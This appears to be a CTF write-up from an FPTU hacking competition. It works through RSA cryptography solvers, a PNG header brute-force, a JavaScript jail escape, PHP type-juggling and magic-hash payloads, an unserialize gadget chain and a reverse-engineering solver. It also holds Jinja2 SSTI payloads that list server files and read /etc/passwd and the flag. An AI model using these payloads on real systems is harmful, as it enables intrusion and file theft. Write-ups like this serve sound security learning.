







# CTF LIST

1.  [character](#character)
2.  [keyRSA](#keyrsa)
3.  [RRSSAA](#rrssaa)
4.  [Broken](#broken)
5.  [Welcome to FPTU Ethical Hackers Kingdom](#welcome-to-fptu-ethical-hackers-kingdom)
6.  [Piece Of Cake](#piece-of-cake)
7.  [PHP Is Easy !!!]([#php-is-easy-))
8.  [EHC Hair Salon](#ehc-hair-salon)
9.  [Có Giòn Không ?](#c%C3%B3-gi%C3%B2n-kh%C3%B4ng-)
10. [RE00](#re00)  

# character

RSA challenges with small `n` so we can use factordb to find `p, q`, then use RSA algorithm for decrypting:
```
ct = [5233255814690667805529050679379989137691898764277005216541, 1870694492393161674771686943297304702352907594053686174278, 3661015703708456676148833905808992750898107261384099554264, 3640450509049735296277222453966833113176001109462902640650, 713018909233014197661944344402837643483455701060614823225, 2148613057293724592156401029394313516084127956419642083795, 914071841017108088845636180177372749626894141441398683712, 43048181680482537931918103953011775841336244539522719598, 2405810555603074962168961557157657502350934256667191406443, 1200034167545924940083765642924865724909197684708883122728, 4838309618960679381584994908344707171604662977972916583510, 349112994545060093907911070877819635524515616121373207860, 5752234825761714269395601064454117623197996044849965228659, 1200034167545924940083765642924865724909197684708883122728, 914071841017108088845636180177372749626894141441398683712, 3159555855719751846502625028011669214370407386873674795167, 5426806266063509256659759392182172871457616465704991241889, 1410394499692302868874987637452305810590172484499325753545, 3174226711156354168021058888499899675619014219713409115596, 1653741415536761418926141827438592242502454185717519953246, 1200034167545924940083765642924865724909197684708883122728, 4838309618960679381584994908344707171604662977972916583510, 3480843669323410637494609725385137813175235571687007687320, 5752234825761714269395601064454117623197996044849965228659, 2558792000472784692860335874752612016005270959394717741709, 914071841017108088845636180177372749626894141441398683712, 2486752070469694142873171465551583545282278296169494933072, 3480843669323410637494609725385137813175235571687007687320, 914071841017108088845636180177372749626894141441398683712, 2486752070469694142873171465551583545282278296169494933072, 2558792000472784692860335874752612016005270959394717741709, 5860699925199115963822659518367092734816710382456223163980, 3480843669323410637494609725385137813175235571687007687320, 2148613057293724592156401029394313516084127956419642083795, 2405810555603074962168961557157657502350934256667191406443, 1200034167545924940083765642924865724909197684708883122728, 3661015703708456676148833905808992750898107261384099554264, 3480843669323410637494609725385137813175235571687007687320, 4479601991743639924676243156231165270681976102358130434675, 269450084581211575399495824305873184644563991763691341664, 1200034167545924940083765642924865724909197684708883122728, 1200034167545924940083765642924865724909197684708883122728, 2558792000472784692860335874752612016005270959394717741709, 3480843669323410637494609725385137813175235571687007687320, 2486752070469694142873171465551583545282278296169494933072, 5752234825761714269395601064454117623197996044849965228659, 5170575049598658472692535626113149524725954481984878664007, 1410394499692302868874987637452305810590172484499325753545, 2041823529023835399271492316577828261682451845435751302168, 2630939614202559030194685394826319768811831072576757390646]
n = 5891773551966962003993799117509614436456325750025065237059
e = 65537
p= 74437321397109323485877016517
q= 79150800181745408199941108327

phi = (p-1)*(q-1)
d = pow(e, -1, phi)
print("".join(chr(pow(c,d,n)) for c in ct))

#FPTUHacking{3ncRYpt1ng_34ch_ch4r_ainT_G0nn4_h3lp}
```

# keyRSA

We must input `d` that is different to server's `d`, and we know: `x= p % (n // 2)` .\
As `n=p*q`, `n//2` > `p`, and `p` is prime so: `x= p % (n // 2) = p`. Then, we can find `q`. \
Next, `d = pow(e,-1,phi)`, so, for: `user_d != d`, we can input: `user_d = d + phi` 

```python
e = 65537
n = 79972205240473714132105722310903207076662104873604541004098630759274848962313377155225205693199954492159171036724170646315234659933161986208056140281665066391283600666801454234524635215011687719535293613824405344976866919367489873673208164878538949975531586890758163615078088845579715337387841716662803127891
x = 8864375773408018566321779651557295199005917636281379423492107867513906966175249977094441618010768771076019329702620656015012944861174639811322616088157941

q = (n-1)//x +1

d = pow(e, -1, (x-1)*(q-1)) + (x-1)*(q-1)
print(d)

#FPTUHacking{Y0u_kn0w_t0_CR34t3_y0ur_0wn_k3y!!!}
```

References: [CRY301](https://fptu-ethical-hackers-club.github.io/posts/FuSec3-CRY301-CRY302/)

# RRSSAA

RUN RsaCtfTool: \
Part 1:
```
python3 RsaCtfTool.py --uncipher 1371759048149611040770011921418215274402106876461640344401671404760028350471019509755594539076613816766603306047375261901377330195783332158141855247009473212134079930634738546463366062005611533899217760683884243552925137820869416006162234259026748413289532952661691110428194702340622114401978375464352186350704087241652696132238723998349724100265841522875869638348652264210710788722315420766378666865380442669403058098363185242109346451512352300814495546093790945666900753896675597726653142708523272375106881144319062453373966096109696111579547829616782570851839672780482070134871669403035987583702072195847608957359 -n 6490575414546753422169557924726633698938840342804007877593140124713933084247239272632050468659186332284597365791524523203890501075477199471733446503331287392773585633905281136028592442460859381818517915584152977506750156812875265542004792964515179303151752533661952619290383021701963596253894613400006395933540184308383205582620641667831066786941489460633668241024642868786169958309890455670637684750726393954761545971579402229970767454083426068165630397383861060884335031186141866257202083321618111563513626855089058455000733251707282966148763783562830207713984490916122334630807846682310867739481868099531604199361 -e 65537
```
Output 1: `utf-8 : FPTUHacking{Us3_0f_s1ngl3_pr1m3_4nd` 

Part 2: 
```
python3 RsaCtfTool.py --uncipher 13328797044862662040031336230712258541783627901094587775876771299742074083680668896746399241086714119830688395349669302694505303651730534145158997674920873640772428508628089236079960707540568179840256034900463343673430411467530242996605459278602091508195203902676963982374006581722502811925835672334973207193807537155840718929964442943000099917015241745382770009470964464459371708987908791454965936419120107641347519737033356242627992230599067761853501335939840610231285729885833878366987477004347128006121486442078361960058397114501698227903288899815398102056944015302283951908059548073442330608775519166795679207096 -n 13908131502186888224364262080833432482112861581791111042080173649970166026500874345460017841288071475736405123781852190183413966703850124472840235945014409259347227565898256371761534183506997838619648382565719683809192690932704492409765399588791914002222178163703645294336900346832278341843927619793929067019394635129701010101745788281692696408082738016096835941283027842912901321468805256876430916029359283952631637587185030521085502993312596951304076920403362682120118569535468210808087497348286199962361033672950036309555605765599177178688696972244879328867379830135765957335666748015324124120372593527528004246553 -e 65537
```

Output 2: `utf-8 : _cl0se_prim3s_w3r3_w4st3_0f_c0mput3r_Cycl35}`

FIRST BLOOD !
https://www.youtube.com/watch?v=rr1AnWzZod0

# Broken

Bruteforce width + height of image by:
```python
from zlib import crc32

data = open("flag.png",'rb').read()
index = 12

ihdr = bytearray(data[index:index+17]) #ihdr
width_index = 7 #width
height_index = 11 #height

for x in range (1,2000):
    height = bytearray(x.to_bytes(2,'big'))
    for y in range(1,2000):
        width = bytearray(y.to_bytes(2,'big'))
        for h in range(len(height)):
            ihdr[height_index - h] = height[-h -1]
        for w in range(len(width)):
            ihdr[width_index - w] = width[-w -1]
        if hex(crc32(ihdr)) == '0x612055aa': #crc
            print("width: {} height: {}".format(width.hex(),height.hex()))
        for i in range(len(width)):
            ihdr[width_index - i] = bytearray(b'\x00')[0]
```
Flag: `FPTUHacking{ju5t_ba5s1c_1HdR_r1ght}`

# Welcome to FPTU Ethical Hackers Kingdom

References: [Harekaze 2019 "[a-z().]"](https://ctftime.org/writeup/15376)

Payload:
```
eval((typeof(this)).constructor((typeof(this)).length.constructor(true)).concat((typeof(x)).search((typeof(x)))).concat(true.constructor.name.length).concat((typeof(this)).big.name.length))
```

Flag: `FPTUHacking{ban_qua_hu,ban_da_bi_Antoine_nhot_vao_js_jail}`

# Piece Of Cake
Param 0 is Hash Collision  Any magic hash string 


All parameter we send by the query string are passed to the `$_GET[]` array. \
Therefore we can pass this array `?1[]=1` to the query string and when the \
script access `$_GET['1']`, it treat `1` as the array. \
Using array fulfill both checks:

```php
if($str2 !== $str3){ // 2 different array
if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ //
array concat to string resulting "SOMESALTArray" -> equal hash
```

Payload: `?0=0e215962017&1[]=1&2[]=2`

# PHP Is Easy !!!



Type Juggling  Hash collision, just need a md5 result start with `0e` 
Payload: `?0ni0n=s878926199a`

# EHC Hair Salon



Submit the `{a+b}` payload resulting `200 OK`, while submitting `{{a+b}}` cause
`500 Internal Server Error`.



This is highly vulnerable to Jinja2 SSTI payloads, so we endup listing files with: 
`{{cycler.__init__.__globals__.os.listdir()}}`



Generic payloads for reading remote file:
```
get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()
```

But `', ", /` are filtered. So we ultilize the previous file listing payload, with
`.pop()` to return last file `(flag)` and read.
Payload:

```
{{get_flashed_messages.__globals__.__builtins__.open(cycler.__init__._
_globals__.os.listdir().pop()).read()}}
```

Thanks PayloadAllTheThing.

# Có Giòn Không ?



`Unserialize()` and magic `method __destruct()`. We already know what to do. \
Class main have magic `method __destruct()`, and this create a new class \
based on `$class parameter`. After that creating cc class with parameter `$this->param.`



In the other hand `do_nothing` class return the value of inaccessible value
with magic method `__get` so we use this class to create `cc` as class name



We have to inject the main object, which contains the class name and
parameter that we controlled. \
We used `FilesystemIterator` class to get to the flag and `SplFileInfo` to
read the flag file .
POC:


Flag: `FPTUHacking{Ch4ll nhu n4y c0 d0n kh0ng h1h1 !!!}`

# RE00

After 2 times check `IsDebugPresent`, we go to function check, reverse check function for true input by:

```python
n = [0xA1, 0xB7, 0xF3, 0xC2, 0x4F, 0x76, 0x14, 0x9C, 0xFE, 0x09, 0x50, 0x8C, 0x60, 0xB2, 0x6B, 0x14, 0xD8, 0x3A, 0xB2, 0xE8, 0xD3, 0xD8, 0xE8, 0xD3, 0x2F, 0xB2, 0xE8, 0x81, 0xFE, 0x35, 0x04, 0xD3, 0xE8, 0xB2, 0x76, 0x04, 0xEE, 0xE8, 0x55, 0xD2, 0xE8, 0x14, 0x2F, 0x76, 0x6B, 0x6B, 0xE8, 0x36, 0x36, 0x36, 0x2A, 0xED, 0x71]
flag = ""

for i in range (0,53):
    for j in range (20, 127):
        if ((j^0x37)*0x31)%0x100 == n[i]:
            flag += str(chr(j))
print(flag)

#FPTUHacking{Welcome_to_the_first_easy_RE_chall_!!!}
```


